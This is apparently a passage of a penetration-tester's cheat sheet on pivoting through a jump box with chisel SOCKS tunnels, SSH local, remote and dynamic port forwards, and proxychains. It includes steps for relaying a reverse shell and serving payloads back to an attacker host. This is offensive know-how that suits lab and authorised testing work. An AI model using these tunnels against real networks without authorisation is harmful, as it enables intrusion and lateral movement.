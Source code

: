 | chisel client SERVER_IP:9001 R:socks | Create SOCKS5 listener on 1080 on Kali, proxy through client, add `socks5 127.0.0.1 1080` to `/etc/proxychains4.conf` |

### SSH port forwarding 
#### 1. Local port forward, doing a local port forward proxy with jump host local port and target port. So that the exploit can go through from jump box to target machine and port
```bash
#execute on KALI
ssh -N Administrator@${JUMP} -p 22 -L 2222:${TARGET}:22
```
#### 2. forward rev shell
```bash
#Execute on jump box
ssh -N user@${ATTACKING_HOST} -p 22 -R 0.0.0.0:443:127.0.0.1:443
```
At this stage you can start a listen on port 443 to catch the rev shell
But remember all LHOST is now the jump box

#### 3. If you need a web server to serve payload
```bash
#Execute on jump box
ssh -N user@${ATTACKING_HOST} -p 22 -L 0.0.0.0:8080:127.0.0.1:8080
```

#### 4. map one remote host port to jump box
```bash
#Executed on jump box
ssh -N -L 0.0.0.0:4455:REMOTE_HOST:445 USER@REMOTE_HOST
```

#### 5. access remote host port via jump box dynamically
```bash
#Execute on jump box
ssh -Nf -D 0.0.0.0:proxy_port USER@REMOTE_HOST
```

#### 6. map one remote port from remote host to kali box via jumpbox(remote port forward)
```bash
#executed on jump box
ssh -Nf -R 127.0.0.1:ANY_UNUSED_PORT:REMOTE_TARGET:TARGET_PORT kali@KALI_IP
```

#### 7. Dynamic remote port forward, use one localhost port to access all remote host ports
```bash
#execute on jump box
ssh -Nf -R Kali_proxy_port(1080) kali@KALI_IP
```

#### 8. When need to access a host via proxy
```bash
# Make sure you have your proxy running correctly
proxychains4 -q YOUR_COMMAND
```
